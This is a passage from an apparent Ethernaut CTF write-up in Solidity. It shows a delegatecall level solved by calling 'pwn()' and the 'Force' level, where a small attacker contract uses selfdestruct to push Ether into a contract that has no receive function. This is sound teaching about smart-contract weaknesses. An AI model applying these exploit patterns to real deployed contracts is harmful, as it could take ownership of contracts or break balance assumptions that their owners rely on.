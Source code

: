 The solution then is just

```solidity
(bool success,) = challengeAddress.call(abi.encodeWithSignature("pwn()"));
success;
```

### References

* https://docs.soliditylang.org/en/v0.8.19/introduction-to-smart-contracts.html#delegatecall-and-libraries
* https://solidity-by-example.org/delegatecall/

## 07 Force

To beat this level, we need to comply with

```solidity
address(instance).balance > 0
```

### Solution

Right. This is the contract, BTW.

```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Without a `receive()` function, looks like we are in trouble.

Enter `selfdestruct()`:

> The only way to remove code from the blockchain is when a contract at that address performs the `selfdestruct` operation. The remaining Ether stored at that address is sent to a designated target and then the storage and code is removed from the state. Removing the contract in theory sounds like a good idea, but it is potentially dangerous, as if someone sends Ether to removed contracts, the Ether is forever lost.

So, what we want to do is creating some contract with value on it, and `selfdestruct`it, making sure we give this level address as the destination of whatever funds it holds.

```solidity
contract ForceAttack {
  function byebye(address payable _dest) public {
    selfdestruct(_dest);
  }

  receive() external payable {}

}
```
